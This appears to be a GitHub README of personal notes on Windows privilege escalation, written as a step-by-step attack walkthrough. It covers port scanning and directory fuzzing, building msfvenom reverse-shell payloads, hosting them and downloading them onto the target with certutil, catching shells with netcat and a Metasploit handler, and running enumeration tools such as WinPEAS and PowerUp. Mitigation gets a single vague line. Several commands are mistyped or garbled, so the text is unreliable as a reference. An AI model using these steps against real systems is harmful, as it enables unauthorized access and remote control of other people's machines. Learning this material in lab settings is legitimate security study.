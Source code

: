 # winescalation
Windows Privilege Escalation

Intro:
A cyberattack technique for Gaining unauthorized access to your windows and gaining more control or higher privileges than what is typically allowed. It is possible due to weakness or vulnerability in the system.

Example - Login to website with someone's account

AIM:
->Gain administrative control
->Access restricted resources
->Maintain persistence
->Expand lateral movement
->Evade detection and security measures

2 types:

1.Horizontal priv escalation - When 1st users got access to other account via any username or password or via any other method and login or work as 2nd user.

2.Vertical priv escalation - When user able to perform any activity on behalf of administrator.

I) Gaining Initial Access 

->It basically requires some type of privilages in your hand.

->Once we have initial access we can then perform enumeration to identify vulnerabilities that can allow us to do privilage escalation.

nmap -p- -A ipofdevice -oN nmap.txt --min-rate 10000

If FTP anonumous service is allowed
If no file found or not found anything , try to put some file from your system
put nmap.txt

Now if found port 80 
just type ip on the browser 
use ffuf => ffuf -u http://ip/FUZZ/nmap.txt -w /usr/share/seclists/Discovery/web-content/reft-small-directoriex.txt -t 100

Now try uploading payload created by msfvenom

msfvenom -l formats
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=yourip lport=80,443,53,445(prefer or 80) -f aspx -o robensive.aspx 
or
msfvenom -p windows/x64/shell_reverse_tcp lhost= lport=8989 -f exe -o test.exe 

now upload robensive.aspx or test.exe
For uploading (external)
python3 -m http-server 8000(for running a server from the linux terminal)
certutil -urlcache -f -split http:://lhost:8000/test.exe test.exe(On target windows command prompt)
nc -lnvp 8989 (on termainal)
test.exe

run metasploit listener

msfdb run 
uer exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost=yourip
set lport=445(as used before)
run

Now access robensive.aspx via browser and get meterpreter

getuid 
getprivs
##Completer Initiall Access##

Enumeration for privsec
->some known scripts:
PowerUp
WinPEAS
PrivescCheck
BeRoot
PayloadAllThings
->Now we can try poetential ways to privilage escalation over the system to be a administrative user
->Many automation scripts

Practical part
shell
net localgroup administrators -> got  all users
net user "username"
exit

1.Powerup (google it)
wget from github
load
load powershell
help
powershell_import PowerUp.ps1
powershell_execurte Invoke_powerup(can cause problem to use  for powerups

2.Privescheck(google it)
powershell_import PrivescCheck.ps1
powershell_execurte Invoke_PrivescCheck

3.WinPeas(install from github)
upload winpeasx64.exe(on meterpreter)
shell
winpeasx64.exe


4.Beroot(install from github )
upload beRoot.exe
shell 
beroot.exe

#Priviege Escalataion
->Based on enumeration we will exploit the machine.

Mitigation:
Based on vulnearabilities , different mitigation should be applied
